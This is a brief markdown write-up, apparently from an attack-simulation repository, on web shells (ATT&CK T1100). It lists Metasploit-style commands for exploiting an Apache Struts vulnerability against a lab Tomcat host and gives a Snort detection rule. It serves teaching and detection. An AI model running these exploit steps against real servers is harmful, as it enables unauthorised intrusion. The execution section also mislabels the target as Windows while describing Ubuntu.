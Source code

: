 ﻿# Web Shell

 # Technique Description

ID: T1100  

Tactic: Persistence, Privilege Escalation

A web shell is simply a script that is run on an accessible web server so that the attack can utilize the web server as an entry point to a network. A web shell can be a set of functions or a command line UI on the target machine that hosts the web server.

 # Assumptions
The victim host has the following characteristics:

Platform: Linux, Windows, macOS  

Effective Permissions: SYSTEM, User  

Data Sources: Anti-virus, Authentication logs, File monitoring, Netflow/Enclave netflow, Process monitoring

# Execution 
Getting a shell using the Apache Struts web-app vulnerability on a Windows host.

Running tomcat on Ubuntu (victim machine) and using Kali linux to run the exploit

Using the following commands to run the exploit:

> set TARGET 3 <- option for unix based systems
> 
> set RHOST 192.168.1.129 <- ip of victim
> 
> set TARGETURI /struts2-rest-showcase-2.5.12/orders/3 <- payload
> 
> exploit


![enter image description here](https://lh3.googleusercontent.com/Ih8tdr7UqCwijLkflGCYSq1rZCDfpNGw68Yvv90VAbUNkHrF4P_sRA0iUrWJ9D3X5fbqnFtfLn0=s500)


# Detection

Detection can be done with snort using the following snort rule:

> alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"WEB_SERVER Apache
> Struts webapp; flow:established,to_server;
> content:"opensymphony"; fast_pattern:only; content:"Content-Type|3a
> 20|"; http_header; pcre:"/Content-Type: [ ]*[%$]{[^\r\n]*#\w+/Hi";classtype:web-application-attack;
> sid:8985470; rev:1;)

